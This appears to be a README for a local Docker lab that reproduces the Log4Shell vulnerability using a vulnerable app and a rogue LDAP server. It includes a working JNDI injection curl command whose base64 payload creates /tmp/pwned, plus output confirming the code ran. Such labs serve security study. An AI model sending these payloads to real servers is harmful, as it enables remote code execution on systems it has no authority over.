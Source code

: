 full playground setup for log4shell using [this great app and documentation](https://github.com/christophetd/log4shell-vulnerable-app) ([their blog post](https://www.cynet.com/log4shell/))and [this rogue LDAP server](https://codechina.csdn.net/mirrors/feihong-cs/JNDIExploit.git) (codechina mirror as it was removed from github)

Both projects copied into this repo and original README/LICENSEs kept under each.

## Quickstart

* Launch the *lab*
```
docker compose up
```
* Send payload to *vulnapp`
```
curl 127.0.0.1:40000 -H 'X-Api-Version: ${jndi:ldap://ldap:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```
* Verify payload executed
```
docker compose exec vulnapp ls -l /tmp/pwned
-rw-r--r--    1 root     root             0 Dec 14 01:43 /tmp/pwned
```

